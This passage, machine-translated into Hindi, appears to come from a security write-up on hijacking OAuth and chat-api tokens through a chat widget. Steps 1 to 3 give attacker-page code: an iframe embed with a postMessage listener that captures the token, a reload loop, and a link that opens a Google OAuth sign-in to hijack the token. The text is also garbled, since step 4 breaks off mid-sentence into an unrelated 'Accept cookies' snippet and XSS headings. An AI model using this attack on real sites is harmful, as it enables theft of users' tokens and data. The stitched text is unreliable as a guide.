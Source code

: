 1. एक दुष्ट पृष्ठ बनाया जो चैट-विजेट का एक आइफ्रेम एम्बेड कर रहा है, चैट-api-टोकन के लिए सुनने के लिए postMessage-सुनने वाले को जोड़ा। साथ ही, यदि मैंने 2 सेकंड में चैट-api-टोकन प्राप्त नहीं किया है तो आइफ्रेम को रीलोड करने के लिए घटना को ट्रिगर किया। यह यह सुनिश्चित करने के लिए था कि मैं उन पीड़ितों का समर्थन भी करता हूं जिन्होंने कभी चैट प्रारंभ नहीं किया था, और क्योंकि मैं दूरस्थ से चैट खोलने को ट्रिगर कर सकता था, मुझे पहले चैट-api-टोकन की आवश्यकता थी ताकि मैं सर्वर-साइड से चैट-एपीआई में डेटा के लिए पोलिंग शुरू कर सकूं।

```html
<div id="leak"><iframe
id="i" name="i"
src="https://chat-widget.example.com/chat" onload="reloadToCheck()"></iframe></div>
<script>
var gotToken = false;
function reloadToCheck() {
if (gotToken) return;
setTimeout(function() {
document.getElementById('i').src = 'https://chat-widget.example.com/chat?' + Math.random();
}, 2000);
}
window.onmessage = function(e) {
if (e.data.key === 'api-token') {
gotToken = true;
lookInApi(e.data.value);
}
}
launchChatWindowByPostMessage();
</script>
```
2. दुष्ट पृष्ठ पर एक लिंक जोड़ा गया है जो टोकन को हाइजैक करने वाले साइन-इन-फ्लो को खोलने के लिए होगा और यह चैट-विजेट के साथ URL में टोकन के साथ अंत में खत्म होगा:

```
<a href="#" onclick="b=window.open('https://accounts.google.com/o/oauth2/auth/oauthchooseaccount?...');">यहां क्लिक करें टोकन को हाइजैक करने के लिए</a>
```
3. `launchChatWindowByPostMessage()`-फ़ंक्शन निरंतरता से मुख्य विंडो को postMessage भेजेगा, यदि खोली गई हो, चैट-विजेट को लॉन्च करने के लिए:

```javascript
function launchChatWindowByPostMessage() {
var launch = setInterval(function() {
if(b) { b.postMessage({type: 'launch-chat'}, '*'); }
}, 500);
}
```
4. जब पीड़ित लिंक पर क्लिक करता है और त्रुटि पृष्ठ पर पहुंचता है, तो चैट लॉन्च हो जाएगा और चैट-api-टोकन बनाया जाएगा। मेरे दुष्ट पृष्ठ पर चैट-विजेट आइफ्रेम का रीलोड चैट-api-
```html
<a href="#" onclick="a=window.open('attacker2.html'); return false;">Accept cookies</a>
```
## XSS and Iframes to Leak Code and State Values

### XSS (Cross-Site Scripting)
